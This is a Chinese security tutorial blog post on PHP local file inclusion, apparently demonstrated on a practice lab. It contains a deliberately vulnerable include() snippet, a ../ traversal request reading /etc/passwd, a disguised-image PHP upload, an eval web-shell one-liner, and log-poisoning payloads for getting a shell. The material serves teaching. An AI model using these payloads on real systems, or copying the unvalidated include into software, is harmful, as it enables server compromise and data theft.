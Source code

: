 ```yaml
---
layout: post
title: web常见漏洞一
categories: 网络安全
description: web常见漏洞一
keywords: 文件包含漏洞
---
```


文件包含漏洞

### 1、文件包含漏洞描述

程序在引用文件的时，引用的文件名，用户可控的情况，传入的文件名没有经过合理的校验或校验不严，从而操作了预想之外的文件，就有可能导致文件泄漏和恶意的代码注入。

程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，而无需再次编写，这重文件调用的过程一般被称为文件包含。

程序开发人员一般希望代码更灵活，所以将被包含的文件设置为变量，用来进行动态调用，但正是由于这种灵活性，从而导致客户端可以调用一个恶意文件，造成文件包含漏洞。

几乎所有脚本语言都会提供文件包含的功能，但文件包含漏洞在 PHP Web Application 中居多,而在 JSP、ASP、ASP.NET 程序中却非常少，甚至没有，这是有些语言设计的弊端。在 PHP 中经常出现包含漏洞，但这并不意味这其他语言不存在。

### 2、PHP中常见文件包含函数

1. include()：执行到 include 时才包含文件，找不到被包含文件时只会产生警告，脚本将继续执行
2. require()：只要程序一运行就包含文件，找不到被包含的文件时会产生致命错误，并停止脚本
3. include_once()和 require_once()：若文件中代码已被包含则不会再次包含

漏洞部分代码如下

```php
$html='';
if(isset($_GET['submit']) && $_GET['filename']!=null){
    $filename=$_GET['filename'];
    include "include/$filename";//变量传进来直接包含,没做任何的安全限制
//     //安全的写法,使用白名单，严格指定包含的文件名
//     if($filename=='file1.php' || $filename=='file2.php' || $filename=='file3.php' || $filename=='file4.php' || $filename=='file5.php'){
//         include "include/$filename";

//     }
}
```

$_GET['filename'] 接收客户端传的参数，其中没有任何过滤 带入到 include 函数中，include 包含这个文件，引入到当前文件中，因此会造成文件包含漏洞。

### 3、文件包含漏洞的利用方法

文件包含漏洞，需要引入上传的文件到网站目录，或是服务器内部的文件，而且是权限是可读，才能引入进来，或远程包含进来，但是需要条件。

#### 3.1 本地包含文件

本地包含文件，被包含的文件在本地。

如上代码，没有做安全校验，直接读取当前目录下的文件，我们可以传入`../`一层一层的返回，去查找敏感文件，如下：

```txt
http://192.168.3.16/06/vul/fileinclude/fi_local.php?filename=../../../../../../../etc/passwd&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```

直到查找到文件，找到之后会返回在页面上

```txt
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
。。。。省略下面很多内容
```

确认有这个漏洞，可以找个地方上传一个图片或者文件，新建一个文件，输入`<?php phpinfo();?>`然后把后缀改成`.jpg`，然后上传，拿到上传的路径，用上面的办法去找到文件上传到的路径

```txt
图片上传的位置为：06/vul/unsafeupload/uploads/s.jpg
漏洞包含的文件夹位置为：06/vul/fileinclude/include
所以构建的请求链接为：http://192.168.3.16/06/vul/fileinclude/fi_local.php?filename=../../unsafeupload/uploads/s.jpg&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```

就可以根据相对路径找到存在攻击语句的图片了。如果是一句话`eval($POST['cmd']);`的话，可以直接用蚁剑进行连接，直接管理这个站。

### 4、包含日志文件 getshell

中间件例如 iis 、apache、nginx 这些 web 中间件，都会记录访问日志，如果访问日志中或错误日志中，存在有 php 代码，也可以引入到文件包含中。如果日志有 php 恶意代码，也可导致 getshell。

使用 burp suite 访问 GET 填写` <?php phpinfo();eval($_POST[cmd]);?>`，或者直接URL修改

```txt
http://192.168.3.16/06/vul/fileinclude/fi_local.php?filename=<?php phpinfo();?>
```

这条语句肯定是会报错的，进入到错误日志里面。浏览器可能会进行编码，可以用burp suite抓包直接在包里面进行修改即可。

在linux下日志文件权限默认是root 而php的权限是www-data 一般情况下都是读取不了，如果是windows环境下是可以权限是允许的。

linux 默认的 apache访问日志文件路径是：`/var/log/apache2/access.log`

linux 默认的 apache错误日志文件路径是：`/var/log/apache2/error.log`

如果权限足够，包含`/var/log/apache2/error.log`这个文件就能 getshell
